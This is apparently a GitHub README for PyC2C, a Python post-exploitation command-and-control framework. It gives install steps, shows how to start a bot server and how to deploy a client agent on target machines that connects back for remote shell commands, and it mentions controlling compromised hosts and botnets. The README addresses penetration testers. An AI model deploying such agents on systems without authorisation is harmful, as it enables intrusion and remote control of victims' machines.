 # PyC2C: Python Post-Exploitation Framework with C2C Architecture

PyC2C is a Python-based post-exploitation framework designed with a Command and Control (C2C) architecture. It enables remote execution of shell code on multiple clients, also known as bots, providing powerful capabilities for penetration testers and security professionals.

## Features

- **C2C Architecture**: Allows centralized control over multiple compromised hosts.
- **Remote Shell Execution**: Execute shell commands on remote client machines.
- **Flexible Payload Generation**: Generate custom payloads tailored to specific targets.
- **Cross-Platform Compatibility**: Compatible with various operating systems supporting Python.
- **Scalability**: Easily scale up to control large botnets efficiently.

## Installation

1. Clone the PyC2C repository:

    ```
    git clone https://github.com/nafdev01/post-exploitation.git
    ```

2. Navigate to the PyC2C directory:

    ```
    cd post-exploitation
    ```

3. Install dependencies:

    ```
    pip install -r requirements.txt
    ```

## Usage

1. Start the C2C server:

    ```
    python botServer.py
    ```

2. Configure the server settings, such as listening IP and port.

3. Deploy the client agent on target machines:

    ```
    python botClient.py --server <server_ip> --port <server_port>
    ```

4. Once the clients connect to the server, you can execute commands remotely.

## Example

1. Execute a shell command on slected connected client:

    ```
    whoami
    ```

## Disclaimer

This tool is intended for educational and penetration testing purposes only. Unauthorized use of this tool may violate local, state, or federal law.

## Contribution

Contributions are welcome! Feel free to submit issues, feature requests, or pull requests to improve PyC2C.
